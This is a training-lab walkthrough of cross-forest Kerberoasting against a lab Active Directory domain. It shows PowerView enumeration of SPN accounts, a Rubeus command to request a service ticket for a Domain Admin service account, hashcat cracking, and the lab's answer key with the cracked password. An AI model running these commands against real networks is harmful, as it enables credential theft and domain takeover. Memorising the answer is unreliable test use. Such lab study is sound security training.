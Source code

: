 <div align='center'>

# **Lab 25: Attacking Domain Trusts - Cross-Forest Trust Abuse - from Windows** 

</div>

## **Cross-Forest Kerberoasting**

**Enumerating Accounts for Associated SPNs Using Get-DomainUser (PowerView)**

```powershell
Get-DomainUser -SPN -Domain FREIGHTLOGISTICS.LOCAL | select SamAccountName
```

![](../imgs/Lab/Lab24/1.png)

**Enumerating the mssqlsvc Account**

```powershell
Get-DomainUser -Domain FREIGHTLOGISTICS.LOCAL -Identity mssqlsvc |select samaccountname,memberof
```

![](../imgs/Lab/Lab24/2.png)

We can see that the mssqlsvc account is a member of the `Domain Admins` group in the `FREIGHTLOGISTICS.LOCAL` domain.

**Performing a Kerberoasting Attacking with Rubeus Using /domain Flag**

```powershell
Rubeus.exe kerberoast /domain:FREIGHTLOGISTICS.LOCAL /user:mssqlsvc /nowrap
```

![](../imgs/Lab/Lab24/3.png)

We get the [hash](../docs/mssqlsvc_TGSTicket.txt) for the mssqlsvc account.

**Cracking the Hash with Hashcat**

```zsh
hashcat -m 13100 mssqlsvc_TGSTicket.txt /usr/share/wordlists/rockyou.txt
```

![](../imgs/Lab/Lab24/4.png)

We get the password for the mssqlsvc account: `1logistics`

**Question**: Perform a cross-forest Kerberoast attack and obtain the TGS for the mssqlsvc user. Crack the ticket and submit the account's cleartext password as your answer.

- **Answer**: `1logistics`

![](../imgs/Lab/Lab24/5.png)